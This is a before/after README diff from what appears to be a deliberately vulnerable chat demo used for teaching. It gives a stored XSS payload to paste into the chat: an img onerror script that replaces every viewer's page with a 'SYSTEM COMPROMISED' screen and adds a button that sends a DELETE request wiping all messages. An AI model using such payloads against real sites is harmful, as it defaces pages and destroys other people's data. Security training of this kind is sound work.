

Before and after one commit to Alaa-Alhomsi/Vulnerable-Chat-Demo, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Revamp hacker screen with new design and features
Updated the hacker-style screen with new content and functionality.

````diff
--- a/README.md
+++ b/README.md
@@ -29,20 +29,42 @@ Kopiere diesen Payload in das Chat-Eingabefeld. Sobald andere Nutzer diese Nachr
 
 ```html
 <img src=x onerror="
-    /* Die Seite komplett schwarz machen und Hacker-Style erzwingen */
+    /* 1. Den gesamten Screen in Hacker-Optik überschreiben */
     document.body.innerHTML = `
-        <div style='position:fixed;top:0;left:0;width:100%;height:100%;background:black;color:#0f0;z-index:9999;display:flex;flex-direction:column;align-items:center;justify-content:center;font-family:monospace;text-shadow:0 0 5px #0f0;'>
-            <h1 style='font-size:50px;'>⚠️ SYSTEM CRITICAL ⚠️</h1>
-            <h2 style='font-size:30px;'>HACKED BY [DEIN NAME HIER]</h2>
-            <p style='font-size:18px;margin-top:20px;'>ACCESS DENIED. ALL DATA ENCRYPTED.</p>
-            <div id='matrix' style='margin-top:30px;font-size:12px;opacity:0.5;'></div>
-            <button onclick='location.reload()' style='margin-top:40px;background:transparent;border:1px solid #0f0;color:#0f0;padding:10px 20px;cursor:pointer;'>System neustarten?</button>
+        <div id='hacker-screen' style='position:fixed;top:0;left:0;width:100%;height:100%;background:black;color:#0f0;z-index:9999;display:flex;flex-direction:column;align-items:center;justify-content:center;font-family:monospace;text-shadow:0 0 5px #0f0;text-align:center;'>
+            <h1 style='font-size:50px;margin-bottom:10px;'>⚠️ SYSTEM COMPROMISED ⚠️</h1>
+            <h2 style='font-size:25px;'>HACKED BY [DEIN NAME]</h2>
+            <p style='margin:20px;max-width:600px;'>Ich bin ein netter Hacker. Ich habe alle Nachrichten in der Datenbank durch diesen Screen ersetzt. Ich gebe dir einen Reset-Knopf, aber du musst beweisen, dass du ein echter Admin bist und ihn im Code aktivieren.</p>
+
+            <div id='matrix-bg' style='font-size:10px;opacity:0.3;margin-bottom:30px;'></div>
+
+            <button id='repair-btn' disabled style='background:transparent;border:2px solid #0f0;color:#0f0;padding:15px 30px;font-size:20px;cursor:not-allowed;opacity:0.5;'>
+                [ REPAIR SYSTEM ]
+            </button>
+            <p style='font-size:12px;margin-top:10px;color:#888;'>(Tipp: inspect element -> remove 'disabled' attribute)</p>
         </div>`;
 
-    /* Ein kleiner Matrix-Effekt im Hintergrund */
+    /* 2. Matrix-Animation für den Vibe */
     setInterval(() => {
-        document.getElementById('matrix').innerHTML += Math.random().toString(2).substring(2, 10) + ' ';
-    }, 100);
+        const m = document.getElementById('matrix-bg');
+        if(m) m.innerHTML = Math.random().toString(2).substring(2, 15) + ' ' + m.innerHTML.substring(0, 100);
+    }, 150);
+
+    /* 3. Logik für den Lösch-Vorgang (wenn der Button aktiviert wurde) */
+    document.getElementById('repair-btn').onclick = function() {
+        this.innerHTML = 'CLEANING DB...';
+
+        // Sende die echte DELETE Anfrage an dein Backend
+        fetch('/messages', { method: 'DELETE' })
+            .then(() => {
+                alert('Datenbank bereinigt! Starte System neu...');
+                location.reload();
+            })
+            .catch(err => {
+                alert('Fehler: ' + err);
+                location.reload();
+            });
+    };
 ">
 ```
 
````
